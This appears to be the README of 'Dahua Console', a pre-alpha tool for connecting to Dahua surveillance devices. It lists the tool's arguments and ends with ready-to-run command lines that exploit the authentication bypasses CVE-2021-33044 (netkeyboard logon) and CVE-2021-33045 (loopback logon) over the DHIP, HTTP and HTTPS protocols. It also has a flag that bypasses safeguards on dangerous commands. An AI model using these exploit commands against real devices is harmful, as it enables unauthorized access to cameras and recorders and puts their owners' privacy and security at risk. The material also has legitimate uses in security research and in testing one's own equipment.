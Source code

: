 # Dahua Console

- Version: Pre-alpha
- Bugs: Indeed
- TODO: Lots of stuff

[Install requirements]
```text
sudo pip3 install -r requirements.txt
```

[Arguments]
```text
  -h, --help            show this help message and exit
  --rhost RHOST         Remote Target Address (IP/FQDN)
  --rport RPORT         Remote Target Port
  --proto {dhip,dvrip,3des,http,https}
                        Protocol [Default: dvrip]
  --relay RELAY         ssh://<username>:<password>@<host>:<port>
  --auth AUTH           Credentials (username:password) [Default: None]
  --ssl                 Use SSL for remote connection
  -d, --debug           JSON traffic
  -dd, --ddebug         hexdump traffic
  --dump {config,service,device,discover,log,test}
                        Dump remote config
  --dump_argv DUMP_ARGV
                        ARGV to --dump
  --test                test w/o login attempt
  --multihost           Connect hosts from "dhConsole.json"
  --save                Save host hash to "dhConsole.json"
  --events              Subscribe to events [Default: False]
  --discover {dhip,dvrip}
                        Discover local devices
  --logon {wsse,loopback,netkeyboard,onvif:plain,onvif:digest,onvif:onvif,plain,ushield,ldap,ad,cms,local,rtsp,basic,old_digest,gui}
                        Logon types
  -f, --force           Bypass stops for dangerous commands
  --calls               Debug internal calls
```
---
[Release]

2021-10-06


[CVE-2021-33044]

Protocol needed: DHIP or HTTP/HTTPS (DHIP do not work with TLS/SSL @TCP/443)
```text
[proto: dhip, normally using tcp/5000]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto dhip --rport 5000

[proto: dhip, usually working with HTTP port as well]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto dhip --rport 80

[proto: http/https]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto http --rport 80
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto https --rport 443
```

[CVE-2021-33045]

Protocol needed: DHIP (DHIP do not work with TLS/SSL @TCP/443)
```text
[proto: dhip, normally using tcp/5000]
./Console.py --logon loopback --rhost 192.168.57.20 --proto dhip --rport 5000

[proto: dhip, usually working with HTTP port as well]
./Console.py --logon loopback --rhost 192.168.57.20 --proto dhip --rport 80
```
---

